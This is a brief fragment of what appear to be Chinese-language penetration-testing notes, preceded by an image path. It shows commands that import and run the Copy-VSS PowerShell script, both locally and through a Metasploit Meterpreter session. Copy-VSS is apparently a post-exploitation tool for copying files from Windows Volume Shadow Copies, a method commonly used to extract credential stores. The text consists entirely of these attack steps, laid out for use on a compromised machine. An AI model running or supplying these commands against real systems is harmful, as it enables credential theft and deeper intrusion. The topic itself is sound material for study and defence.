 	PS >Import-Module .\Copy-VSS.ps1
	PS >Copy-VSS
	PS >Copy-VSS -DestinationDir C:\ShadowCopy\
	或MSF中
	Meterpreter>load powershell
	Meterpreter>powershell_import /root/Copy-VSS.ps1
	Meterpreter>powershell_execute Copy-VSS